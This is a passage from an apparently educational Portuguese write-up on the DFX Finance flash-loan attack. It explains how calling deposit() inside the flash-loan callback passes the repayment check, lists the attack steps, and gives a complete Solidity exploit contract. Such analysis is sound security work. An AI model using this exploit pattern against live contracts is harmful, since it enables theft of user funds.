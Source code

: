   ![image](https://user-images.githubusercontent.com/53768199/215330695-1b1fa612-4f01-4c6a-a5be-7324f464ecb1.png)

  Como você pode ver, o atacante chamou a função `deposit` no contrato vítima e receberá os ativos numeraire que o pool suporta e criará tokens de curva. Como mencionado no gráfico acima, `USDC` e `XIDR` são enviados para a vítima via `transferFrom`.

  ![image](https://user-images.githubusercontent.com/53768199/215330576-d15642f7-5819-4e83-a8c8-1d3a48ad8c6d.png)

  Neste ponto, sabe-se que a conclusão do empréstimo flash é determinada verificando se os ativos de token correspondentes no contrato são maiores ou iguais ao estado antes da execução da função de retorno de chamada do empréstimo flash. E a função `deposit` fará essa validação completa.

  ```solidity
  require(balance0Before.add(fee0) <= balance0After, 'Curve/insufficient-token0-returned');
  require(balance1Before.add(fee1) <= balance1After, 'Curve/insufficient-token1-returned');
  ```

  Deve-se notar que o atacante preparou alguns tokens `USDC` e `XIDR` para o mecanismo de taxa de empréstimo flash antes do ataque. É por isso que o depósito do atacante é relativamente maior do que o valor emprestado. Portanto, o valor total para a invocação de `deposit` é o valor emprestado com o empréstimo flash mais a taxa. A validação na função `flash` pode ser passada com isso.

  Como resultado, o atacante invocou `deposit` na função de retorno de chamada do empréstimo flash, contornou a validação no empréstimo flash e deixou o registro para o depósito. Após todas essas operações, o atacante retirou os tokens.

  Em resumo, todo o fluxo de ataque é:
  1. Prepare alguns tokens `USDC` e `XIDR` com antecedência.
  2. Use `viewDeposit()` para obter o número de ativos para posterior `deposit()`.
  3. Faça um flash de tokens `USDC` e `XIDR` com base no valor de retorno no passo 2.
  4. Invoque a função `deposit()` na função de retorno de chamada do empréstimo flash.
  5. Como temos um registro de depósito no passo anterior, agora retire os tokens.

  A implementação completa da PoC:
  ```solidity
  contract EXP {
      uint256 amount;
      function testExploit() public{
        uint[] memory XIDR_USDC = new uint[](2);
        XIDR_USDC[0] = 0;
        XIDR_USDC[1] = 0;
        ( , XIDR_USDC) = dfx.viewDeposit(200_000 * 1e18);
        dfx.flash(address(this), XIDR_USDC[0] * 995 / 1000, XIDR_USDC[1] * 995 / 1000, new bytes(1)); // 5% fee
        dfx.withdraw(amount, block.timestamp + 60);
    }

      function flashCallback(uint256 fee0, uint256 fee1, bytes calldata data) external{
        (amount, ) = dfx.deposit(200_000 * 1e18, block.timestamp + 60);
    }
  }
  ```

  O código mais detalhado pode ser encontrado no repositório DefiHackLabs: [DFX_exp.sol](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/DFX_exp.sol)
